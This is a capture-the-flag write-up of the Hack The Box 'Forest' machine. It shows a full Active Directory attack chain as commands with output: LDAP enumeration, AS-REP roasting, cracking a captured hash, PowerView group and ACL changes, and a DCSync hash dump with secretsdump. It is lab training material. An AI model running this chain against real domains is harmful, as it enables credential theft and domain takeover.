






+++
title = 'Forest'
date = 2024-08-19T11:27:31-03:00
draft = false
weight = 1
+++

## Machine info


https://app.hackthebox.com/machines/Forest

- Difficulty: Easy
- OS: Windows
- Release date: 12 Oct, 2019
- Rooted on: 31 Jul, 2024

IP changes on target are due to machine resets.

## Foothold/User

### Q1: For which domain is this machine a Domain Controller?

Ran port scan with nmap:

```bash
$ cat nmap/initial.nmap 
```
```
# Nmap 7.94SVN scan initiated Thu Jul 25 17:11:19 2024 as: nmap -sCV -oN nmap/initial.nmap 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.17s latency).
Scanned at 2024-07-25 17:11:19 -03 for 513s
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-07-25 20:26:15Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-25T20:26:25
|_  start_date: 2024-07-25T18:00:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m32s, median: 6m48s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-07-25T13:26:29-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36501/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 37941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 32697/udp): CLEAN (Timeout)
|   Check 4 (port 13345/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 25 17:19:52 2024 -- 1 IP address (1 host up) scanned in 513.31 seconds
```

**R1: htb.local**

### Q2: Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM

Attempting SMB

```bash
$ smbclient -L 10.129.95.210 -U guest
```
```
Password for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```

Attempting LDAP
```bash
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'dc=htb,dc=local' "(objectClass=*)" *
```
```
# extended LDIF
#
# LDAPv3
# base <dc=htb,dc=local> with scope subtree
# filter: (objectClass=*)
# requesting: Desktop Documents Downloads Music Pictures Public Templates Videos htb 
#

# htb.local
dn: DC=htb,DC=local

# Users, htb.local
dn: CN=Users,DC=htb,DC=local

# Allowed RODC Password Replication Group, Users, htb.local
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=htb,DC=local

# Denied RODC Password Replication Group, Users, htb.local
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local

# Read-only Domain Controllers, Users, htb.local

...
```

**R2: LDAP**

### Q3: Which user has Kerberos Pre-Authentication disabled?

Took a while to craft this query:

```bash
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'ou=Employees,dc=htb,dc=local' "(&(objectClass=user)(objectClass=person))" +
```
```
# extended LDIF
#
# LDAPv3
# base <ou=Employees,dc=htb,dc=local> with scope subtree
# filter: (&(objectClass=user)(objectClass=person))
# requesting: + 
#

# Sebastien Caron, Exchange Administrators, Information Technology, Employees, 
 htb.local
dn: CN=Sebastien Caron,OU=Exchange Administrators,OU=Information Technology,OU
 =Employees,DC=htb,DC=local

# Santi Rodriguez, Developers, Information Technology, Employees, htb.local
dn: CN=Santi Rodriguez,OU=Developers,OU=Information Technology,OU=Employees,DC
 =htb,DC=local

# Lucinda Berger, IT Management, Information Technology, Employees, htb.local
dn: CN=Lucinda Berger,OU=IT Management,OU=Information Technology,OU=Employees,
 DC=htb,DC=local

# Andy Hislip, Helpdesk, Information Technology, Employees, htb.local
dn: CN=Andy Hislip,OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,D
 C=local

# Mark Brandt, Sysadmins, Information Technology, Employees, htb.local
dn: CN=Mark Brandt,OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,
 DC=local

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 5
```

After that, I also tried many other ldapsearch queries in order to find the right user, but only managed to do so by running enum4linux later, with all basic enumeration. Here is the one I thought would be the most promising:

```bash
$ ldapsearch -H ldap://10.129.36.185:389/ -x -b 'dc=htb,dc=local' "(objectClass=user)"| grep "sAMAccountName: " | sed s/"sAMAccountName: "//g | cat -n
```
```
     1  Guest
     2  DefaultAccount
     3  FOREST$
     4  EXCH01$
     5  $331000-VK4ADACQNUCA
     6  SM_2c8eef0a09b545acb
     7  SM_ca8c2ed5bdab4dc9b
     8  SM_75a538d3025e4db9a
     9  SM_681f53d4942840e18
    10  SM_1b41c9286325456bb
    11  SM_9b69f1b9d2cc45549
    12  SM_7c96b981967141ebb
    13  SM_c75ee099d0a64c91b
    14  SM_1ffab36a2f5f479cb
    15  HealthMailboxc3d7722
    16  HealthMailboxfc9daad
    17  HealthMailboxc0a90c9
    18  HealthMailbox670628e
    19  HealthMailbox968e74d
    20  HealthMailbox6ded678
    21  HealthMailbox83d6781
    22  HealthMailboxfd87238
    23  HealthMailboxb01ac64
    24  HealthMailbox7108a4e
    25  HealthMailbox0659cc1
    26  sebastien
    27  lucinda
    28  andy
    29  mark
    30  santi
```


However, when trying to run `impacket-GetNPUsers` with those usernames, it's output stated that none of the accounts had the `UF_DONT_REQUIRE_PREAUTH` property set.

Then I tried enum4linux:

```bash
$ enum4linux -a 10.129.95.210 | tee enum4linux.out
```


Why didn't I find that user in any of my `ldapsearch` queries?

It happens that, in this case, since the server allows anonymous bind, it isn't necessary to get a list of usernames before running the `GetNPUsers` script. It already requests for the users who have that property set and then asks for the [TGTs](https://www.tarlogic.com/blog/how-kerberos-works/#Tickets).



Following with my solve, I included that username in my list and tried running the impacket script again.

```bash
$ impacket-GetNPUsers htb.local/ -dc-ip 10.129.36.185 -outputfile hash.txt -format hashcat -usersfile usernames-custom.txt
```
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User FOREST$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User EXCH01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b7292cee1a66a28f8b67fb064553a38d$663f567fbc37b84a525e6761682e354a1d4c13e10db57d41d194e13301528c48b687200a8e00d7f6e0c117d54c7034502075391ba970b0dce19868c6a0c9d2d9ddceb96c051955d3e168b198e9021f9f0b2132be9dcd46fb1b90edd2e7f40cb091ae8f0c7c833807621948aa3a7cfa9e6f2f078203f3bb2cbab21585d42655753259a0e5aa1245dab21b363e9e9fd3f1fad5919b09e4f9065a458a7b9df001af31681d01d15f220e02d4f2f69efb1cb41eb0ec63e4b749bdb1e30fa710ea2a159a603e69cd990fa1bc29eae7e08fd8cf91ac02f03793028b1bae9814571efa251e829371f327
```

By that output, we can notice that many of the usernames could've been excluded from my list.

This technique is known as AS-REP Roasting.

**R3: svc-alfresco**

### Q4: What is the password of the user svc-alfresco?

```bash
$ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


**R4: s3rvice**

### Q5: To what port can we connect with these creds to get an interactive shell?

As I wasn't sure if any of the ports I'd found in the initial nmap scan could be hosting some kind of remote shell service, I decided to run another one through all of the TCP ports in the host.

```bash
$ cat nmap/complete.nmap
```
```
# Nmap 7.94SVN scan initiated Tue Jul 30 00:38:14 2024 as: nmap -sCV -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.36.185
Increasing send delay for 10.129.36.185 from 320 to 640 due to 89 out of 295 dropped probes since last increase.
Warning: 10.129.36.185 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.129.36.185)
Host is up (0.17s latency).
Scanned at 2024-07-30 00:38:15 -03 for 157s
Not shown: 65211 closed tcp ports (conn-refused), 300 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-07-30 03:46:34Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  msrpc        Microsoft Windows RPC
49677/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49925/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

...
```


None of these seemed like an obvious remote access service to me, so I've decided to take a look at the hint, which said that it would be interesting to check if WinRM was open.

After googling "winrm", I noticed that it used `5985` as it's default port, which we found open in the nmap scan.

**R5: 5985**

I've found a couple of solutions to connect to the machine at this point. The most simple seemed to be using straight PowerShell, which comes pre-installed on Kali as pwsh,  and then connecting to the remote machine using the `Enter-PSSession` command. That didn't work, so used Evil-WinRM instead.


```powershell
PS C:\Users\svc-alfresco\Documents> ls C:\Users
```
```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/18/2019  10:09 AM                Administrator
d-r---       11/20/2016   6:39 PM                Public
d-----        9/22/2019   3:29 PM                sebastien
d-----        9/22/2019   4:02 PM                svc-alfresco
```

## Root


### Q6: Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the @htb.local.

At this point, I decided to setup BloodHound, which consists in uploading the data collector script to the target, running it, download the resultant `.zip` file and importing it into the BloodHound client.

With bloodhound, we can have a graphic and logical view of the whole Active Directory, and also take advantage of many available queries that can give us insights on how to proceed with the privilege escalation.

From bloodhound, we can find our current user under the menu, on Analysis > Kerberos Interaction > find AS-REP Roastable Users. We can mark it as owned.

Then, we can execute the "Shortest Path to High Value Targets" query, giving us this messy result.


By zooming closer to the domain's icon, we find the answer to the current question.



Here is the Microsoft definition for DACL: "An access control list that is controlled by the owner of an object and that specifies the access particular users or groups can have to the object"

This means that if we are somehow able to get access to the "Exchange Windows Permissions" group we could grant ourselves any access control permissions over the domain.

**R6: Exchange Windows Permissions**

### Q7: The user svc-alfresco is a member of a group that allows them to add themself to the "Exchange Windows Permissions" group. Which group is that?

Still in the result of the same query, we see that the group "Account Administrators", which we are in, has the permission "GenericAll" over the target group.



This GenericAll permission means that we can manipulate the object, which in this case is a group, in any way we want. By having this permission, we can add ourselves to the "Exchange Windows Permissions" group and explore it's WriteDACL permission over the domain.

**R7: Account Operators**

I imported PowerView into the machine in order to continue. 

Firstly, I created a user using the `net.exe` utility.


Then, I added my user to the "Remote Management Users" group, in order to be able to access it with `evil-winrm`.

```powershell
PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity "Remote Management Users" -Members zetsu
```

Finally, added the account to the target group.

```powershell
PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members zetsu
```

Now we can connect to our user in a new WinRM session.


### Q8: Which of the following attacks you can perform to elevate your privileges with a user that has WriteDACL on the domain? PassTheHash, PassTheTicket, DCSync, KrbRelay

I had to take a look at the hint for this one. It indicated that bloodhound has a help section, which can be accessed by right-clicking the line which connects the Exchange Windows Permissions group and the domain object.



**R8: DCSync**

From the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync): "The DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled."

What the WriteDACL permission allows us to do here is granting ourselves the permissions over the domain that are necessary to perform a DCSync attack. We can do so with PowerView.


```powershell
PS C:\Users\zetsu\Documents> $SecPassword = ConvertTo-SecureString 'chinforinfola' -AsPlainText -Force
PS C:\Users\zetsu\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\zetsu', $SecPassword)
PS C:\Users\zetsu\Documents> Add-ObjectACL -PrincipalIdentity zetsu -Credential $Cred -Rights DCSync
```


Now, we can use `secretsdump.py` to perform the actual attack.

```bash
$ secretsdump.py -just-dc <username>:<password>@<target-ip> -outputfile <filename>
```


Getting Administrator NT hash. Check [this WikiPedia article](https://en.wikipedia.org/wiki/NTLM) for reference on the hash format.

We can use that hash to login, now as Administrator, using `evil-winrm`.


That was the box. Besides checking the Microsoft documentation for PowerShell commands now and then, I mostly used HackTricks as reference, so I really recommend the reading.

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology